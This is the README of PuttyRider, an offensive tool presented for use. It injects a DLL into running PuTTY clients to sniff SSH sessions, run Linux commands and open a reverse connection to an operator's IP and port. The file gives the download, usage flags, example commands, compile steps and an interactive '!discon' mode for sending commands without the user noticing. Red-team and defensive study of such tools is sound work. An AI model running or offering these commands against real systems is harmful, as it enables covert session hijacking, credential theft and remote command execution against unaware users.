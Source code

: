 PuttyRider
==========
Hijack Putty sessions in order to sniff conversation and inject Linux commands.

Download
========
[PuttyRider-bin.zip](https://github.com/seastorm/PuttyRider/releases/download/0.1/PuttyRider-bin.zip)


Documentation
=============
* [Defcamp 2014 presentation - pdf](http://defcamp.ro/dc14/AdrianFurtuna.pdf)
* [Defcamp 2014 presentation - video](https://www.youtube.com/watch?v=nfhzoFPGUhg&list=UUc05xgnkf4YZEdn3zBJRFkA)

Examples
========
List existing Putty processes and their status (injected / not injected)

    PuttyRider.exe -l

Inject DLL into the first found putty.exe and initiate a reverse connection from DLL to my IP:Port, then exit PuttyRider.exe.

    PuttyRider.exe -p 0 -r 192.168.0.55:8080

Run in background and wait for new Putty processes. Inject in any new putty.exe and write all conversations in local files. 

    PuttyRider.exe -w -f

Eject PuttyRider.dll from all Putty processes where it is already injected. 
(Don't forget to kill PuttyRider.exe if running in -w mode, otherwise it will reinject again.)

    PuttyRider.exe -x
    
Usage
=====
	Operation modes:
		-l		List the running Putty processes and their connections
		-w		Inject in all existing Putty sessions and wait for new sessions
				to inject in those also
		-p PID  Inject only in existing Putty session identified by PID.
				If PID==0, inject in the first Putty found
		-x		Cleanup. Remove the DLL from all running Putty instances
		-d		Debug mode. Only works with -p mode
		-c CMD  Automatically execute a Linux command after successful injection
				PuttyRider will remove trailing spaces and '&' character from CMD
				PuttyRider will add: " 1>/dev/null 2>/dev/null &" to CMD
		-h		Print this help

	Output modes:
		-f			Write all Putty conversation to a file in the local directory.
					The filename will have the PID of current putty.exe appended
		-r IP:PORT	Initiate a reverse connection to the specified machine and
					start an interactive session.

	Interactive commands (after you receive a reverse connection):
		!status		See if the Putty window is connected to user input
		!discon		Disconnect the main Putty window so it won't display anything
					This is useful to send commands without the user to notice
		!recon		Reconnect the Putty window to its normal operation mode
		CMD			Linux shell commands
		!exit		Terminate this connection
		!help		Display help for client connection

		
Compiling
=========
Use Visual Studio Command Prompt:

	nmake main dll

Acknowledgements
================
Thanks to Brett Moore of Insomnia Security for his proof of concept [PuttyHijack](https://www.insomniasec.com/downloads/tools/PuttyHijackV1.0.rar)


